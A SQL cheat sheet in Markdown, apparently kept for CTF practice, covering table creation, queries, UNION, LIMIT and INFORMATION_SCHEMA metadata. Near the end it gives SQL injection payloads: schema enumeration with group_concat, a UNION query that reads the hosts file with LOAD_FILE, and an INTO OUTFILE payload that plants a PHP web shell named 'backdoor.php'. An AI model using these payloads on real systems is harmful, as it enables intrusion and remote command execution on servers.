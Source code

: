 # SQL

## Table manipulation
* Creating a new databse table in `SQL`. `PRIMARY KEY` is something that is `NOT NULL` and `UNIQUE`
```sql
CREATE TABLE student (
    student_id INT PRIMARY KEY,
    name VARCHAR(20)
);
```
* Show all columns and records in `students` table. The first argument to `SELECT` is a column, where `*` is a sepcial character that represents all columns
```sql
SELECT * FROM student;
```

* Difference between `UNION` and `UNION ALL`: `UNION` do not allow duplicate entry, and `UNION ALL` will include all entry as is.
```sql
table_one:
Egg   1
Milk  2

table_two:
Bread 1
Egg   1
Juice 2

SELECT * from table_one UNION SELECT * from table_two;

Result:
Egg   1
Milk  2
Bread 1
Juice 2


SELECT * from table_one UNION SELECT * from table_two;
Egg   1
Milk  2
Bread 1
Egg   1
Juice 2
```

* Show all columns and records in `students` table displaying only records with `id` is `1`
```sql
SELECT * FROM student where id=1;
```

* Remove table
```sql
DROP TABLE student;
```

* Add a column to table
```sql
ALTER TABLE student ADD gpa DECIMAL(3,2);
```

* Delete a column
```sql
ALTER TABLE student DROP COLUMN gpa;
```

* Get version of the backend database
```sql
@@version
```

* Get current database name
```sql
database()
```

* Get current user using the database
```sql
user()
```

* Combine/group multiple rows into one string, good for sql injection attacks.
```sql
select group_concat(schema_name) from INFORMATION_SCHEMA.schemata
```

* Getting all the database
```sql
select group_concat(schema_name) from INFORMATION_SCHEMA.schemata
```

* Getting all the tables from one database
```sql
select group_concat(table_name) from INFORMATION_SCHEMA.tables where table_schema = 'ASISCTF'
```

* Getting all columns from one table
```sql
select group_concat(column_name) from INFORMATION_SCHEMA.columns where table_name = 'books'
```
## Inserting / Deleting from table
* Insert an entry to table
```sql
INSERT INTO student VALUES(1, "John");
```

* Updating whole column with condition
```sql
UPDATE student
SET name = 'saccharide'
WHERE name = 'John';
```

* Delete every row in a table
```sql
DELETE FROM student
```

## Queries
* SELECT  column `*` (every column or wild card) FROM table
```sql
SELECT * FROM student;
```

* ORDER BY `ASC` (Ascending), `DESC` (Descending)
```sql
SELECT * FROM student ORDER BY name DESC;
```

* We can also `ORDER BY` a table using column index!
```sql
SELECT name FROM student ORDER BY 1;
```
* `LIMIT`: number of output, if it has 2 arguments, it will use the first as offset to the first row, and the second argument as number of rows after that offset
```sql
SELECT * FROM student LIMIT 2;
SELECT * FROM student LIMIT [offset], num_rows; 
```
* Read a file with `LOAD_FILE` SQL command!
```
1 UNION ALL SELECT 1,2,LOAD_FILE('C:/Windows/System32/drivers/hosts')
```

* Write to a file using `INTO OUTFILE` command!
```
1 UNION ALL SELECT 1,2, "<?php echo '<pre>'. shell_exec($_GET['cmd']. '</re>');?>" INTO OUTFILE('C:/xampp/htdocs/backdoor.php')
```


## Querying metadata about the tables
* Getting all existing tables from `INFORMATION_SCHEMA`
```sql
SELECT * FROM INFORMATION_SCHEMA.TABLES;
```
* Getting all column of a table
```sql
SELECT * FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_NAME = "student";
```
* Getting the constraints of a table
```sql
SELECT * FROM INFORMATION_SCHEMA.TABLE_CONSTRAINTS
WHERE TABLE_NAME = "student";
```


